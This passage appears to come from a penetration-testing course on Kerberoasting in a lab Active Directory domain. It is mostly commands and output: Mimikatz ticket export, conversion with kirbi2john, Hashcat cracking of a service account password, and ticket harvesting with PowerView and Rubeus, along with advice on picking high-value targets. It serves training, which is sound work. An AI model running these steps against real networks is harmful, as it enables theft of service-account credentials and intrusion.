isBase64InterceptInput  is false
isBase64InterceptOutput is true

mimikatz # kerberos::list /export  

<SNIP>

[00000002] - 0x00000017 - rc4_hmac_nt      
   Start/End/MaxRenew: 2/24/2022 3:36:22 PM ; 2/25/2022 12:55:25 AM ; 3/3/2022 2:55:25 PM
   Server Name       : MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433 @ INLANEFREIGHT.LOCAL
   Client Name       : htb-student @ INLANEFREIGHT.LOCAL
   Flags 40a10000    : name_canonicalize ; pre_authent ; renewable ; forwardable ; 
====================
Base64 of file : 2-40a10000-htb-student@MSSQLSvc~DEV-PRE-SQL.inlanefreight.local~1433-INLANEFREIGHT.LOCAL.kirbi
====================
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
ZWZyZWlnaHQubG9jYWw6MTQzMw==
====================

   * Saved to file     : 2-40a10000-htb-student@MSSQLSvc~DEV-PRE-SQL.inlanefreight.local~1433-INLANEFREIGHT.LOCAL.kirbi

<SNIP>
```

If you do not specify the ```base64 /out:true``` command, Mimikatz will extract the tickets and write them to ```.kirbi``` files. Depending on your position on the network and if you can easily move files to your attack host, this can be easier when you go to crack the tickets.

#### Preparing the Base64 Blob for Cracking

Next, you can take the base64 blob and remove new lines and white spaces since the output is column wrapped, and you need it all on one line for the next step.

```bash
d41y@htb[/htb]$ echo "<base64 blob>" |  tr -d \\n 

doIGPzCCBjugAwIBBaEDAgEWooIFKDCCBSRhggUgMIIFHKADAgEFoRUbE0lOTEFORUZSRUlHSFQuTE9DQUyiOzA5oAMCAQKhMjAwGwhNU1NRTFN2YxskREVWLVBSRS1TUUwuaW5sYW5lZnJlaWdodC5sb2NhbDoxNDMzo4IEvzCCBLugAwIBF6EDAgECooIErQSCBKmBMUn7JhVJpqG0ll7UnRuoeoyRtHxTS8JY1cl6z0M4QbLvJHi0JYZdx1w5sdzn9Q3tzCn8ipeu+NUaIsVyDuYU/LZG4o2FS83CyLNiu/r2Lc2ZM8Ve/rqdd+TGxvUkr+5caNrPy2YHKRogzfsO8UQFU1anKW4ztEB1S+f4d1SsLkhYNI4q67cnCy00UEf4gOF6zAfieo91LDcryDpi1UII0SKIiT0yr9IQGR3TssVnl70acuNac6eCC+Ufvyd7g9gYH/9aBc8hSBp7RizrAcN2HFCVJontEJmCfBfCk0Ex23G8UULFic1w7S6/V9yj9iJvOyGElSk1VBRDMhC41712/sTraKRd7rw+fMkx7YdpMoU2dpEj9QQNZ3GRXNvGyQFkZp+sctI6Yx/vJYBLXI7DloCkzClZkp7c40u+5q/xNby7smpBpLToi5NoltRmKshJ9W19aAcb4TnPTfr2ZJcBUpf5tEza7wlsjQAlXsPmL3EF2QXQsvOc74PbTYEnGPlejJkSnzIHs4a0wy99V779QR4ZwhgUjRkCjrAQPWvpmuI6RU9vOwM50A0nh580JZiTdZbK2tBorD2BWVKgU/h9h7JYR4S52DBQ7qmnxkdM3ibJD0o1RgdqQO03TQBMRl9lRiNJnKFOnBFTgBLPAN7jFeLtREKTgiUC1/aFAi5h81aOHbJbXP5aibM4eLbj2wXp2RrWOCD8t9BEnmat0T8e/O3dqVM52z3JGfHK/5aQ5Us+T5qM9pmKn5v1XHou0shzgunaYPfKPCLgjMNZ8+9vRgOlry/CgwO/NgKrm8UgJuWMJ/skf9QhD0UkT9cUhGhbg3/pVzpTlk1UrP3n+WMCh2Tpm+p7dxOctlEyjoYuQ9iUY4KI6s6ZttT4tmhBUNua3EMlQUO3fzLr5vvjCd3jt4MF/fD+YFBfkAC4nGfHXvbdQl4E++Ol6/LXihGjktgVop70jZRX+2x4DrTMB9+mjC6XBUeIlS9a2Syo0GLkpolnhgMC/ZYwF0r4MuWZu1/KnPNB16EXaGjZBzeW3/vUjv6ZsiL0J06TBm3mRrPGDR3ZQHLdEh3QcGAk0Rc4p16+tbeGWlUFIg0PA66m01mhfzxbZCSYmzG25S0cVYOTqjToEgT7EHN0qIhNyxb2xZp2oAIgBP2SFzS4cZ6GlLoNf4frRvVgevTrHGgba1FA28lKnqf122rkxx+8ECSiW3esAL3FSdZjc9OQZDvo8QB5MKQSTpnU/LYXfb1WafsGFw07inXbmSgWS1XkVNCOd/kXsd0uZI2cfrDLK4yg7/ikTR6l/dZ+Adp5BHpKFAb3YfXjtpRM6+1FN56hTnoCfIQ/pAXAfIOFohAvB5Z6fLSIP0TuctSqejiycB53N0AWoBGT9bF4409M8tjq32UeFiVp60IcdOjV4Mwan6tYpLm2O6uwnvw0J+Fmf5x3Mbyr42RZhgQKcwaSTfXm5oZV57Di6I584CgeD1VN6C2d5sTZyNKjb85lu7M3pBUDDOHQPAD9l4Ovtd8O6Pur+jWFIa2EXm0H/efTTyMR665uahGdYNiZRnpm+ZfCc9LfczUPLWxUOOcaBX/uq6OCAQEwgf6gAwIBAKKB9gSB832B8DCB7aCB6jCB5zCB5KAbMBmgAwIBF6ESBBB3DAViYs6KmIFpubCAqyQcoRUbE0lOTEFORUZSRUlHSFQuTE9DQUyiGDAWoAMCAQGhDzANGwtodGItc3R1ZGVudKMHAwUAQKEAAKURGA8yMDIyMDIyNDIzMzYyMlqmERgPMjAyMjAyMjUwODU1MjVapxEYDzIwMjIwMzAzMjI1NTI1WqgVGxNJTkxBTkVGUkVJR0hULkxPQ0FMqTswOaADAgECoTIwMBsITVNTUUxTdmMbJERFVi1QUkUtU1FMLmlubGFuZWZyZWlnaHQubG9jYWw6MTQzMw==
```

#### Placing the Output into a File as .kirbi

You can place the above single line of output into a file and convert it back to a ```.kirbi``` file using the base64 utility.

```bash
d41y@htb[/htb]$ cat encoded_file | base64 -d > sqldev.kirbi
```

#### Extracting the Kerberos Ticket using kirbi2john.py

Next, you can use the kirbi2john.py tool to extract the Kerberos ticket from the TGS file.

```bash
d41y@htb[/htb]$ python2.7 kirbi2john.py sqldev.kirbi
```

#### Modifying crack_file for Hashcat

This will create a file called ```crack_file```. You then must modify the file a bit to be able to use Hashcat against the hash.

```bash
d41y@htb[/htb]$ sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat
```

#### Cracking with Hashcat

```bash
d41y@htb[/htb]$ hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt 

<SNIP>

$krb5tgs$23$*sqldev.kirbi*$813149fb261549a6a1b4965ed49d1ba8$7a8c91b47c534bc258d5c97acf433841b2ef2478b425865dc75c39b1dce7f50dedcc29fc8a97aef8d51a22c5720ee614fcb646e28d854bcdc2c8b362bbfaf62dcd9933c55efeba9d77e4c6c6f524afee5c68dacfcb6607291a20cdfb0ef144055356a7296e33b440754be7f87754ac2e4858348e2aebb7270b2d345047f880e17acc07e27a8f752c372bc83a62d54208d12288893d32afd210191dd3b2c56797bd1a72e35a73a7820be51fbf277b83d8181fff5a05cf21481a7b462ceb01c3761c50952689ed1099827c17c2934131db71bc5142c589cd70ed2ebf57dca3f6226f3b21849529355414433210b8d7bd76fec4eb68a45deebc3e7cc931ed8769328536769123f5040d6771915cdbc6c90164669fac72d23a631fef25804b5c8ec39680a4cc2959929edce34bbee6aff135bcbbb26a41a4b4e88b936896d4662ac849f56d7d68071be139cf4dfaf66497015297f9b44cdaef096c8d00255ec3e62f7105d905d0b2f39cef83db4d812718f95e8c99129f3207b386b4c32f7d57befd411e19c218148d19028eb0103d6be99ae23a454f6f3b0339d00d27879f342598937596cadad068ac3d815952a053f87d87b2584784b9d83050eea9a7c6474cde26c90f4a3546076a40ed374d004c465f654623499ca14e9c11538012cf00dee315e2ed444293822502d7f685022e61f3568e1db25b5cfe5a89b33878b6e3db05e9d91ad63820fcb7d0449e66add13f1efceddda95339db3dc919f1caff9690e54b3e4f9a8cf6998a9f9bf55c7a2ed2c87382e9da60f7ca3c22e08cc359f3ef6f4603a5af2fc28303bf3602ab9bc52026e58c27fb247fd4210f45244fd71484685b837fe9573a53964d54acfde7f963028764e99bea7b77139cb651328e862e43d894638288eace99b6d4f8b6684150db9adc43254143b77f32ebe6fbe309dde3b78305fdf0fe60505f9000b89c67c75ef6dd425e04fbe3a5ebf2d78a11a392d815a29ef48d9457fb6c780eb4cc07dfa68c2e97054788952f5ad92ca8d062e4a68967860302fd9630174af832e599bb5fca9cf341d7a1176868d9073796dffbd48efe99b222f4274e93066de646b3c60d1dd94072dd121dd0706024d11738a75ebeb5b7865a5505220d0f03aea6d359a17f3c5b6424989b31b6e52d1c558393aa34e81204fb107374a8884dcb16f6c59a76a0022004fd921734b8719e8694ba0d7f87eb46f5607af4eb1c681b6b5140dbc94a9ea7f5db6ae4c71fbc1024a25b77ac00bdc549d66373d390643be8f1007930a4124e99d4fcb6177dbd5669fb06170d3b8a75db9928164b55e454d08e77f917b1dd2e648d9c7eb0cb2b8ca0eff8a44d1ea5fdd67e01da79047a4a1406f761f5e3b6944cebed45379ea14e7a027c843fa405c07c8385a2102f07967a7cb4883f44ee72d4aa7a38b2701e77374016a01193f5b178e34f4cf2d8eadf651e162569eb421c74e8d5e0cc1a9fab58a4b9b63babb09efc3427e1667f9c7731bcabe3645986040a7306924df5e6e68655e7b0e2e88e7ce0281e0f554de82d9de6c4d9c8d2a36fce65bbb337a415030ce1d03c00fd9783afb5df0ee8fbabfa358521ad845e6d07fde7d34f2311ebae6e6a119d60d899467a66f997c273d2df73350f2d6c5438e71a057feeab:database!
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: Kerberos 5, etype 23, TGS-REP
Hash.Target......: $krb5tgs$23$*sqldev.kirbi*$813149fb261549a6a1b4965e...7feeab
Time.Started.....: Thu Feb 24 22:03:03 2022 (8 secs)
Time.Estimated...: Thu Feb 24 22:03:11 2022 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1150.5 kH/s (9.76ms) @ Accel:64 Loops:1 Thr:64 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 8773632/14344385 (61.16%)
Rejected.........: 0/8773632 (0.00%)
Restore.Point....: 8749056/14344385 (60.99%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: davius -> darjes

Started: Thu Feb 24 22:03:00 2022
Stopped: Thu Feb 24 22:03:11 2022
```

### Automated / Tool based

#### Enumerate SPN Accounts

First, use PowerView to extract the TGS tickets and convert them to Hashcat format. Start by enumerating SPN accounts.

```powershell
PS C:\htb> Import-Module .\PowerView.ps1
PS C:\htb> Get-DomainUser * -spn | select samaccountname

samaccountname
--------------
adfs
backupagent
krbtgt
sqldev
sqlprod
sqlqa
solarwindsmonitor
```

#### Targeting a Specific User

From here, you could target a specific user and retrieve the TGS ticket in Hashcat format.

```powershell
PS C:\htb> Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat

SamAccountName       : sqldev
DistinguishedName    : CN=sqldev,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
ServicePrincipalName : MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433
TicketByteHexStream  :
Hash                 : $krb5tgs$23$*sqldev$INLANEFREIGHT.LOCAL$MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433*$BF9729001
                       376B63C5CAC933493C58CE7$4029DBBA2566AB4748EDB609CA47A6E7F6E0C10AF50B02D10A6F92349DDE3336018DE177
                       AB4FF3CE724FB0809CDA9E30703EDDE93706891BCF094FE64387B8A32771C7653D5CFB7A70DE0E45FF7ED6014B5F769F
                       DC690870416F3866A9912F7374AE1913D83C14AB51E74F200754C011BD11932464BEDA7F1841CCCE6873EBF0EC5215C0
                       12E1938AEC0E02229F4C707D333BD3F33642172A204054F1D7045AF3303809A3178DD7F3D8C4FB0FBB0BB412F3BD5526
                       7B1F55879DFB74E2E5D976C4578501E1B8F8484A0E972E8C45F7294DA90581D981B0F177D79759A5E6282D86217A03A9
                       ADBE5EEB35F3924C84AE22BBF4548D2164477409C5449C61D68E95145DA5456C548796CC30F7D3DDD80C48C84E3A538B
                       019FB5F6F34B13859613A6132C90B2387F0156F3C3C45590BBC2863A3A042A04507B88FD752505379C42F32A14CB9E44
                       741E73285052B70C1CE5FF39F894412010BAB8695C8A9BEABC585FC207478CD91AE0AD03037E381C48118F0B65D25847
                       B3168A1639AF2A534A63CF1BC9B1AF3BEBB4C5B7C87602EEA73426406C3A0783E189795DC9E1313798C370FD39DA53DD
                       CFF32A45E08D0E88BC69601E71B6BD0B753A10C36DB32A6C9D22F90356E7CD7D768ED484B9558757DE751768C99A64D6
                       50CA4811D719FC1790BAE8FE5DB0EB24E41FF945A0F2C80B4C87792CA880DF9769ABA2E87A1ECBF416641791E6A762BF
                       1DCA96DDE99D947B49B8E3DA02C8B35AE3B864531EC5EE08AC71870897888F7C2308CD8D6B820FCEA6F584D1781512AC
                       089BFEFB3AD93705FDBA1EB070378ABC557FEA0A61CD3CB80888E33C16340344480B4694C6962F66CB7636739EBABED7
                       CB052E0EAE3D7BEBB1E7F6CF197798FD3F3EF7D5DCD10CCF9B4AB082CB1E199436F3F271E6FA3041EF00D421F4792A0A
                       DCF770B13EDE5BB6D4B3492E42CCCF208873C5D4FD571F32C4B761116664D9BADF425676125F6BF6C049DD067437858D
                       0866BE520A2EBFEA077037A59384A825E6AAA99F895A58A53313A86C58D1AA803731A849AE7BAAB37F4380152F790456
                       37237582F4CA1C5287F39986BB233A34773102CB4EAE80AFFFFEA7B4DCD54C28A824FF225EA336DE28F4141962E21410
                       D66C5F63920FB1434F87A988C52604286DDAD536DA58F80C4B92858FE8B5FFC19DE1B017295134DFBE8A2A6C74CB46FF
                       A7762D64399C7E009AA60B8313C12D192AA25D3025CD0B0F81F7D94249B60E29F683B797493C8C2B9CE61B6E3636034E
                       6DF231C428B4290D1BD32BFE7DC6E7C1E0E30974E0620AE337875A54E4AFF4FD50C4785ADDD59095411B4D94A094E87E
                       6879C36945B424A86159F1575042CB4998F490E6C1BC8A622FC88574EB2CF80DD01A0B8F19D8F4A67C942D08DCCF23DD
                       92949F63D3B32817941A4B9F655A1D4C5F74896E2937F13C9BAF6A81B7EEA3F7BC7C192BAE65484E5FCCBEE6DC51ED9F
                       05864719357F2A223A4C48A9A962C1A90720BBF92A5C9EEB9AC1852BC3A7B8B1186C7BAA063EB0AA90276B5D91AA2495
                       D29D545809B04EE67D06B017C6D63A261419E2E191FB7A737F3A08A2E3291AB09F95C649B5A71C5C45243D4CEFEF5EED
                       95DDD138C67495BDC772CFAC1B8EF37A1AFBAA0B73268D2CDB1A71778B57B02DC02628AF11
```

#### Exporting all Tickets to a CSV File

Finally, you can export all tickets to a CSV file for offline processing.

```powershell
PS C:\htb> Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
```

#### Viewing the Contents of the .csv File

```powershell
PS C:\htb> cat .\ilfreight_tgs.csv

"SamAccountName","DistinguishedName","ServicePrincipalName","TicketByteHexStream","Hash"
"adfs","CN=adfs,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL","adfsconnect/azure01.inlanefreight.local",,"$krb5tgs$23$*adfs$INLANEFREIGHT.LOCAL$adfsconnect/azure01.inlanefreight.local*$59C086008BBE7EAE4E483506632F6EF8$622D9E1DBCB1FF2183482478B5559905E0CCBDEA2B52A5D9F510048481F2A3A4D2CC47345283A9E71D65E1573DCF6F2380A6FFF470722B5DEE704C51FF3A3C2CDB2945CA56F7763E117F04F26CA71EEACED25730FDCB06297ED4076C9CE1A1DBFE961DCE13C2D6455339D0D90983895D882CFA21656E41C3DDDC4951D1031EC8173BEEF9532337135A4CF70AE08F0FB34B6C1E3104F35D9B84E7DF7AC72F514BE2B346954C7F8C0748E46A28CCE765AF31628D3522A1E90FA187A124CA9D5F911318752082FF525B0BE1401FBA745E1

<SNIP>
```

#### Using Rubeus

You can also use [Rubeus](https://github.com/GhostPack/Rubeus) to perform Kerberoasting even faster and easier.

```powershell
PS C:\htb> .\Rubeus.exe

<SNIP>

Roasting:

    Perform Kerberoasting:
        Rubeus.exe kerberoast [[/spn:"blah/blah"] | [/spns:C:\temp\spns.txt]] [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."] [/ldaps] [/nowrap]

    Perform Kerberoasting, outputting hashes to a file:
        Rubeus.exe kerberoast /outfile:hashes.txt [[/spn:"blah/blah"] | [/spns:C:\temp\spns.txt]] [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."] [/ldaps]

    Perform Kerberoasting, outputting hashes in the file output format, but to the console:
        Rubeus.exe kerberoast /simple [[/spn:"blah/blah"] | [/spns:C:\temp\spns.txt]] [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."] [/ldaps] [/nowrap]

    Perform Kerberoasting with alternate credentials:
        Rubeus.exe kerberoast /creduser:DOMAIN.FQDN\USER /credpassword:PASSWORD [/spn:"blah/blah"] [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."] [/ldaps] [/nowrap]

    Perform Kerberoasting with an existing TGT:
        Rubeus.exe kerberoast </spn:"blah/blah" | /spns:C:\temp\spns.txt> </ticket:BASE64 | /ticket:FILE.KIRBI> [/nowrap]

    Perform Kerberoasting with an existing TGT using an enterprise principal:
        Rubeus.exe kerberoast </spn:user@domain.com | /spns:user1@domain.com,user2@domain.com> /enterprise </ticket:BASE64 | /ticket:FILE.KIRBI> [/nowrap]

    Perform Kerberoasting with an existing TGT and automatically retry with the enterprise principal if any fail:
        Rubeus.exe kerberoast </ticket:BASE64 | /ticket:FILE.KIRBI> /autoenterprise [/ldaps] [/nowrap]

    Perform Kerberoasting using the tgtdeleg ticket to request service tickets - requests RC4 for AES accounts:
        Rubeus.exe kerberoast /usetgtdeleg [/ldaps] [/nowrap]

    Perform "opsec" Kerberoasting, using tgtdeleg, and filtering out AES-enabled accounts:
        Rubeus.exe kerberoast /rc4opsec [/ldaps] [/nowrap]

    List statistics about found Kerberoastable accounts without actually sending ticket requests:
        Rubeus.exe kerberoast /stats [/ldaps] [/nowrap]

    Perform Kerberoasting, requesting tickets only for accounts with an admin count of 1 (custom LDAP filter):
        Rubeus.exe kerberoast /ldapfilter:'admincount=1' [/ldaps] [/nowrap]

    Perform Kerberoasting, requesting tickets only for accounts whose password was last set between 01-31-2005 and 03-29-2010, returning up to 5 service tickets:
        Rubeus.exe kerberoast /pwdsetafter:01-31-2005 /pwdsetbefore:03-29-2010 /resultlimit:5 [/ldaps] [/nowrap]

    Perform Kerberoasting, with a delay of 5000 milliseconds and a jitter of 30%:
        Rubeus.exe kerberoast /delay:5000 /jitter:30 [/ldaps] [/nowrap]

    Perform AES Kerberoasting:
        Rubeus.exe kerberoast /aes [/ldaps] [/nowrap]
```

##### Using the /stats Flag

You can first use Rubeus to gather some stats. From the output below, you can see that there are nine Kerberoastable users, seven of which support RC4 encryption for ticket requests and two of which support AES 128/256. You also see that all nine accounts had their password set this in 2022. If you saw any SPN accounts with their passwords set 5 or more years later, they should be promising targets as the could have a weak password that was set and never changed when the organization was less mature.

```powershell
PS C:\htb> .\Rubeus.exe kerberoast /stats

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.2


[*] Action: Kerberoasting

[*] Listing statistics about target users, no ticket requests being performed.
[*] Target Domain          : INLANEFREIGHT.LOCAL
[*] Searching path 'LDAP://ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL' for '(&(samAccountType=805306368)(servicePrincipalName=*)(!samAccountName=krbtgt)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

[*] Total kerberoastable users : 9


 ------------------------------------------------------------
 | Supported Encryption Type                        | Count |
 ------------------------------------------------------------
 | RC4_HMAC_DEFAULT                                 | 7     |
 | AES128_CTS_HMAC_SHA1_96, AES256_CTS_HMAC_SHA1_96 | 2     |
 ------------------------------------------------------------

 ----------------------------------
 | Password Last Set Year | Count |
 ----------------------------------
 | 2022                   | 9     |
 ----------------------------------
 ```

##### Using the /nowrap Flag

 Use Rubeus to request tickets for accounts with the ```admincount``` attribute set to 1. These would likely be high-value targets and worth your initial focus for offline cracking efforts with Hashcat. Be sure to specify the ```/nowrap``` flag so that the hash can be more easily copied down for offline cracking.

 ```powershell
 PS C:\htb> .\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.2


[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

[*] Target Domain          : INLANEFREIGHT.LOCAL
[*] Searching path 'LDAP://ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL' for '(&(&(samAccountType=805306368)(servicePrincipalName=*)(!samAccountName=krbtgt)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))(admincount=1))'

[*] Total kerberoastable users : 3


[*] SamAccountName         : backupagent
[*] DistinguishedName      : CN=BACKUPAGENT,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
[*] ServicePrincipalName   : backupjob/veam001.inlanefreight.local
[*] PwdLastSet             : 2/15/2022 2:15:40 PM
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash                   : $krb5tgs$23$*backupagent$INLANEFREIGHT.LOCAL$backupjob/veam001.inlanefreight.local@INLANEFREIGHT.LOCAL*$750F377DEFA85A67EA0FE51B0B28F83D$049EE7BF77ABC968169E1DD9E31B8249F509080C1AE6C8575B7E5A71995F345CB583FECC68050445FDBB9BAAA83AC7D553EECC57286F1B1E86CD16CB3266827E2BE2A151EC5845DCC59DA1A39C1BA3784BA8502A4340A90AB1F8D4869318FB0B2BEC2C8B6C688BD78BBF6D58B1E0A0B980826842165B0D88EAB7009353ACC9AD4FE32811101020456356360408BAD166B86DBE6AEB3909DEAE597F8C41A9E4148BD80CFF65A4C04666A977720B954610952AC19EDF32D73B760315FA64ED301947142438B8BCD4D457976987C3809C3320725A708D83151BA0BFF651DFD7168001F0B095B953CBC5FC3563656DF68B61199D04E8DC5AB34249F4583C25AC48FF182AB97D0BF1DE0ED02C286B42C8DF29DA23995DEF13398ACBE821221E8B914F66399CB8A525078110B38D9CC466EE9C7F52B1E54E1E23B48875E4E4F1D35AEA9FBB1ABF1CF1998304A8D90909173C25AE4C466C43886A650A460CE58205FE3572C2BF3C8E39E965D6FD98BF1B8B5D09339CBD49211375AE612978325C7A793EC8ECE71AA34FFEE9BF9BBB2B432ACBDA6777279C3B93D22E83C7D7DCA6ABB46E8CDE1B8E12FE8DECCD48EC5AEA0219DE26C222C808D5ACD2B6BAA35CBFFCD260AE05EFD347EC48213F7BC7BA567FD229A121C4309941AE5A04A183FA1B0914ED532E24344B1F4435EA46C3C72C68274944C4C6D4411E184DF3FE25D49FB5B85F5653AD00D46E291325C5835003C79656B2D85D092DFD83EED3ABA15CE3FD3B0FB2CF7F7DFF265C66004B634B3C5ABFB55421F563FFFC1ADA35DD3CB22063C9DDC163FD101BA03350F3110DD5CAFD6038585B45AC1D482559C7A9E3E690F23DDE5C343C3217707E4E184886D59C677252C04AB3A3FB0D3DD3C3767BE3AE9038D1C48773F986BFEBFA8F38D97B2950F915F536E16E65E2BF67AF6F4402A4A862ED09630A8B9BA4F5B2ACCE568514FDDF90E155E07A5813948ED00676817FC9971759A30654460C5DF4605EE5A92D9DDD3769F83D766898AC5FC7885B6685F36D3E2C07C6B9B2414C11900FAA3344E4F7F7CA4BF7C76A34F01E508BC2C1E6FF0D63AACD869BFAB712E1E654C4823445C6BA447463D48C573F50C542701C68D7DBEEE60C1CFD437EE87CE86149CDC44872589E45B7F9EB68D8E02070E06D8CB8270699D9F6EEDDF45F522E9DBED6D459915420BBCF4EA15FE81EEC162311DB8F581C3C2005600A3C0BC3E16A5BEF00EEA13B97DF8CFD7DF57E43B019AF341E54159123FCEDA80774D9C091F22F95310EA60165C805FED3601B33DA2AFC048DEF4CCCD234CFD418437601FA5049F669FEFD07087606BAE01D88137C994E228796A55675520AB252E900C4269B0CCA3ACE8790407980723D8570F244FE01885B471BF5AC3E3626A357D9FF252FF2635567B49E838D34E0169BDD4D3565534197C40072074ACA51DB81B71E31192DB29A710412B859FA55C0F41928529F27A6E67E19BE8A6864F4BC456D3856327A269EF0D1E9B79457E63D0CCFB5862B23037C74B021A0CDCA80B43024A4C89C8B1C622A626DE5FB1F99C9B41749DDAA0B6DF9917E8F7ABDA731044CF0E989A4A062319784D11E2B43554E329887BF7B3AD1F3A10158659BF48F9D364D55F2C8B19408C54737AB1A6DFE92C2BAEA9E
```

### Note on Encryption Types

Kerberoasting tools typically request RC4 encryption when performing the attack and initiating TGS-REQ requests. This is because RC4 is weaker and easier to crack offline using tools such as Hashcat than other encryption algorithms such as AES-128 and AES-256. When performing Kerberoasting in most environments, you will retrieve hashes that begin with ```$krb5tgs$23$*```, an RC4 encrypted ticket. Sometimes you will receive an AES-256 encrypted hash or hash that begins with ```$krb5tgs$18$*```. While it is possible to crack AES-128 and AES-256 TGS tickets, it will typically be significantly more time consuming than cracking an RC4 encrypted ticket, but still possible especially if a weak password is chosen.

